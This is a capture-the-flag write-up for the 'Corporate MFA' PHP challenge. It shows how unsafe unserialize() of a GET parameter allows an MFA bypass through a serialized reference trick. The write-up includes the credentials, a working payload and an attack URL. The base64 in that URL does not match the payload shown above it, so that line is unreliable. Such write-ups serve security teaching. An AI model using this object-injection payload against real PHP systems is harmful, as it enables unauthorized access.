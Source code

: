 # Corporate MFA

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.

Service: http://corpmfa-01.play.midnightsunctf.se 

Download: corpmfa.tar.gz

## Challenge

The service is a login page which requires a username, password, and MFA token.

We are given the php source code for the challenge.

### Credential verification source code

```php
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

As we can see, the username and password are hardcoded.
The password is hashed using built-in php functions.
The MFA token is a randomly generated integer for each login.

## Solution

### Username

The username is given in the source code:

```php
	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```

### Password

The password for the given hash can be found online from the php official documentation:

```php
	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```

![PHP verifyPassword() Docs](./resources/function.password-verify.png?raw=true)

Password: `rasmuslerdorf`

### MFA token

It is impractical to guess the value of the MFA token.
However, there is an unsafe deserialization of user input on each login attempt:

```php
	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

We can specify our own `unserialize` input as a GET parameter:

```
if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
        ...
```

By crafting our own input for `unserialize`, we can make the `mfa` variable a reference to `_correctValue`, so that `(int)$this->userData->mfa === $this->userData->_correctValue` always returns true.

To do so, we modify the serialized payload to include an additional field `_correctValue`, formatted as a number `N`.
We can now reference this value when setting `mfa` using the `R` format and pointing it at position 2, where the `N` format from earlier was placed.
Now, `mfa` will reference the value of `_correctValue`.

## Payload

```
# plaintext
O:8:"stdClass":4:{s:13:"_correctValue";N;s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:3:"mfa";R:2;}

# base64
Tzo4OiJzdGRDbGFzcyI6NDp7czoxMzoiX2NvcnJlY3RWYWx1ZSI7TjtzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO1I6Mjt9

# url
https://corpmfa-01.play.midnightsunctf.se/?userdata=Tzo4OiJzdGRDbGFzcyI6Mzp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MzoibWZhIjtzOjEwOiIxMjM0NTY3ODkwIjt9
```

## Flag

`midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

